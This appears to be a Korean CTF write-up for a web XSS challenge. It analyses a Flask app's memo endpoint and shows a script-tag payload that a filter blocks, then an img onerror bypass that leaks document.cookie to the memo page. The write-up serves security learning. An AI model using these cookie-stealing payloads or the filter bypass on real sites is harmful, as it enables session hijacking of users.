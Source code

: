## 취약점 분석

### vuln 함수

```python
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```

* 이번 vuln 함수는 그냥 vuln.html 페이지를 랜더링 해주고 있습니다.

### memo 함수

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

* 이용자가 입력한 값을 페이지에 그대로 출력하고 있습니다. 하지만 render_template 함수를 이용해서 출력하고 있어서 전과 같은 방법으로는 익스플로잇이 안 될수도 있을거 같습니다. 


<br>


## 익스플로잇

<img src="https://velog.velcdn.com/images/silvergun8291/post/10c1f5f0-e466-44bb-af38-1e5017f05413/image.png">

문제 사이트에 접속하면 전과 같이 3개의 연결된 페이지 목록이 있습니다.


<br>


flag 페이지에 들어가서 동일하게 XSS 공격을 시도해보면

```html
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

<img src="https://velog.velcdn.com/images/silvergun8291/post/6e618999-c2a7-43de-b2e0-d54ebf0230a3/image.png">

<img src="https://velog.velcdn.com/images/silvergun8291/post/5bf84483-234a-4361-b848-46efd4eddc84/image.png">

공격에 실패해서 FLAG가 출력되지 않았습니다.


<br>


XSS 필터링이 걸려있어서 우회를 해서 공격을 해야 할 거 같습니다.

onerror 이벤트 핸들러를 이용해서 우회 코드를 작성해보면

```html
<img src="valid.jpg" onerror="location.href = '/memo?memo=' + document.cookie">
```

없는 이미지는 로드하게 하여 데이터 로드를 실패하게 한 후 뒤에 코드가 실행되게 하였습니다.


<BR>


우회 코드로 다시 XSS 공격을 시도해보면

![](https://velog.velcdn.com/images/silvergun8291/post/e2744613-2c20-445a-acaf-93c58edb2b5a/image.png)

![](https://velog.velcdn.com/images/silvergun8291/post/a18332a5-fa83-4506-b2a9-779cc959072c/image.png)

이번에는 공격에 성공해서 FLAG가 출력되었습니다.





